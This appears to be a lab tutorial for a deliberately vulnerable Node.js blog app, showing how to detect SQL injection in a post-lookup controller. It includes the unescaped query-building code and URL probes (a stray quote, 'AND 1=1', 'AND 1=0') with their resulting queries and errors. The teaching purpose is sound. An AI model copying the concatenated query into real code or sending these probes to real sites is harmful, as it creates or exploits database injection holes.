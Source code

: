 
# Testing the application for SQLi

**Tip for detecting the vulnerability**
```javascript
// controllers/ctlPost.js
// Check this code for function getPostById
// What is wrong with it?
var postId = req.params.postid;
var sql = "SELECT posts.id, title, body, date, tags, username, firstname, lastname, avatar "+
          "FROM posts INNER JOIN users ON posts.userId = users.id "+
          "WHERE posts.id = " +postId;
db.query(sql, function(err, post) { 
  ... 
}
```

Testing the app for finding SQL injections vulnerabilies is quiet simple:
you need to find every variable and check if it is escaped or not before passed to the db engine. Just add a single quote, like this:
```shell
http://localhost:8080/p/2/slug-name-post'
http://localhost:8080/p/2'/slug-name-post
```

You should get and error for response:
```javascript
{
  "status": "Error",
  "message": "ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1"
}
```

This error means that the variable is passed unescaped to the database, getting this query:
```javascript
SELECT posts.id,title,body,date,tags,username,firstname,lastname,avatar 
FROM posts INNER JOIN users ON posts.userId = users.id 
WHERE posts.id = 21'
```

You can also pass a **condition** that is **true** (1=1), like this:
```shell
http://localhost:8080/p/2 AND 1=1/slug-name-post
```

This should return the post (id=2) and the query looks like:
```javascript
SELECT posts.id,title,body,date,tags,username,firstname,lastname,avatar 
FROM posts INNER JOIN users ON posts.userId = users.id 
WHERE posts.id = 21 AND 1=1
```

Finally you can pass a **condition** that is **false** (1=0), like this:
```shell
http://localhost:8080/p/2 AND 1=0/slug-name-post
```

This should return and error. The query looks like this:
```javascript
SELECT posts.id,title,body,date,tags,username,firstname,lastname,avatar 
FROM posts INNER JOIN users ON posts.userId = users.id 
WHERE posts.id = 21 AND 1=0
```

The app is also vulnerable in other parts like login and search.
Is up to you to check them out.